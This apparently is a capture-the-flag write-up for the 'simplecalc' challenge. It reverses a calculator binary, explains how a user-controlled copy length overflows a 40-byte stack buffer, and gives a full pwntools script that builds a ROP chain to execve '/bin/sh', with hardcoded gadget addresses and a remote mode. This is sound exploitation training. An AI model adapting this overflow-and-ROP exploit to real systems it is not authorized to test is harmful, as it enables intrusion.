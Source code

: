 ```yaml
---
title: Nigtmare (module 7 simplecalc)
author: megachar0x01
date: 2021-06-28
categories: [Binary Exploitation, nightmare]

---
```



Let's start reversing it with the main function first we see that a value is taken which is stored in the no_loops variable ( Int )  then it is used to create a loop, used as a size for allocating memory on the heap, and also use to control how much memory is to be copied from  heap to stack  then input is taken from user to select what type of function is to be executed (1. addition, 2. subtraction, 3. multiplication, 4. division and 5. copy memory from heap to stack ) after the loop is completely free is used to free up heap memory and program exits

<img src="https://github.com/Megachar0x01/megachar0x01.github.io/blob/main/commons/writeup2/1.png" alt="image_1">



##### Add function

In Add function, we can see that it takes 2 input and then store it in a global variable and then check if it is greater than 39 then it will add two values and store them in a third global variable, and then the exit function and if it is smaller than 39 than prints a msg and exit without doing anything

<img src="https://github.com/Megachar0x01/megachar0x01.github.io/blob/main/commons/writeup2/2.png" alt="image_2">


Rest of the function doing as the name suggests sub,mul, and divide but with the same restrictions as add function (check the value if its greater than 39)

Now we have a general view of the program let's start working on getting shell

The first vuln I can find is that the stack has limited space ( 40 bytes ) and the number of bytes to be copied is controlled by the user


**no_loops is controlled by user**

<img src="https://github.com/Megachar0x01/megachar0x01.github.io/blob/main/commons/writeup2/3.png" alt="img_3">

<img src="http://www.vacentaylor.com/wp-content/uploads/2012/12/647.jpg" alt="The flower">



Now its time to fill the heap with values like its stack (because it will be placed on the stack ) for that we see that after the calculation function ( add, sub, mul, div) we can see that the global value is placed on the heap every time on a different address (because of for_loop multiplying by the address which is incrementing the address value )

Now its time to start working on the exploit first we start by padding . One important thing we will do is overwrite the heap pointer which will be used by the free function to free memory to bypass we will add that variable with "zero" so the free function closes without error and rest of padding till we control instruction pointer rest of is simple creating rope chain.


Now for rop chain our goal is to get shell so we can use sys_execv syscall (man execv ) to call "/bin/sh" for that we have to put the string "/bin/sh" in memory then put the memory pointer to rsi register we can put "0x0" in rest of register (rdi,rdx) and then put "0x3b" (which is number of sys_execv)   in rax and call syscall rop gadget and  u got a shell on the system (THis was the second-best challenge after sandbox escape )

```python
#!/usr/bin/python3

from pwn import *

def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)


# Specify GDB script here (breakpoints etc)
gdbscript = '''
break *main+518
continue
'''.format(**locals())

# break *0x0000000000401545



exe = "./simplecalc" ; elf = context.binary=ELF(exe,checksec=False)

rop= ROP(exe,checksec=False)

def menu(menu_no,menu_x,menu_y):
    io.sendlineafter(b"=>",menu_no)
    io.sendlineafter(b"Integer x: ",menu_x)
    io.sendlineafter(b"Integer y: ",menu_y)
    io.recvline()

def zero ():
    menu(b"2",b"2000",b"2000")

def format_f(fromat_value):
    x = int(fromat_value) - 50000
    menu(b"1",str(x),b"50000")
    zero()

def padd ():
    for x in range(18):
        zero()

#### ROP #############
mov_ptr_rax_rdx_ret = 0x000000000044526e # mov qword ptr [rax], rdx; ret; 
pop_rdi = 0x0000000000401b73
pop_rdx = 0x0000000000437a85
pop_rax = 0x000000000044db34
pop_rsi = 0x0000000000401c87
syscall = 0x00000000004648e5
bin_var = 0x6e69622f
sh_var = 0x68732f


######################


io = start ()

io.sendlineafter(b"Expected number of calculations: ",b"150")

padd ()
format_f(pop_rdx)
format_f(bin_var)
format_f(pop_rax)
format_f(0x6c0008)
format_f(mov_ptr_rax_rdx_ret)
format_f(pop_rax)
format_f(0x6c000c)
format_f(pop_rdx)
format_f(sh_var)
format_f(mov_ptr_rax_rdx_ret)
format_f(pop_rdi)
format_f(0x6c0008)
format_f(pop_rsi)
format_f(0x0)
format_f(pop_rdx)
format_f(0x0)
format_f(pop_rax)
format_f(0x3b)
format_f(syscall)


io.sendlineafter(b"=>",b"5")
io.interactive()
```


[![asciicast](https://asciinema.org/a/504622.svg)](https://asciinema.org/a/504622)
